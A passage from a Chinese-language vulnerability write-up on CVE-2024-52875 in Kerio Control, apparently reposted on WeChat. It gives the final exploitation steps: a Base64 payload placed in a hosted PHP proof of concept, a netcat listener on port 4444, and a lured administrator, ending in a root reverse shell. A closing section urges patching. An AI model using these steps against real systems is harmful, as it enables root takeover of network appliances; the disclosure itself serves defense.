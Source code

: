   
3.将此 Base64 字符串复制到概念验证脚本中，作为$upgrade变量的值。  
  
4.将$target变量设置为 Kerio Control 实例的 IP 地址/主机名。  
  
5.将概念验证 PHP 脚本复制到您的 Web 服务器的 webroot 目录中。  
  
6.在端口 4444 上打开 netcat 监听：  
  
```
$ nc -vlnp 4444
Listening on 0.0.0.0 4444
```  
  
  
7.受害者管理员用户登录 Kerio Control 管理界面。  
  
8.一旦登录，管理员用户就会被诱骗打开攻击者服务器上托管的概念验证脚本。  
  
9.一旦加载，XSS payload 将执行RCE攻击，攻击者将在 netcat 监听器上获得root shell ：  
  
```
$ nc -vlnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.123.64 47023
id
uid=0(root) gid=0(root) groups=0(root)
```  
  
  
10.游戏结束！👾  
  
**结论**  
  
Kerio Control 中发现CVE-2024-52875凸显了一个关键现实：即使是在设计时充分考虑安全性的产品也可能存在重大漏洞。此外，利用HTTP 响应拆分等看似“低”严重性的问题来实现一键式RCE攻击，凸显了漏洞利用的不断演变的独创性。它还强调了全面测试和及时修补的重要性，尤其是对于安全软件而言。  
  
虽然九年前的漏洞在现代 Kerio Control 版本中仍然存在令人担忧，但它也提醒软件供应商要不断重新评估和强化其代码库。对于用户来说，它强调了采取主动措施的重要性，例如及时应用补丁、监控供应商建议以及确保分层防御机制。  
  
安全是共同的责任。通过披露这些发现，我们的目标是提高安全意识，并激励软件供应商和用户果断采取行动，解决和缓解安全漏洞。  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
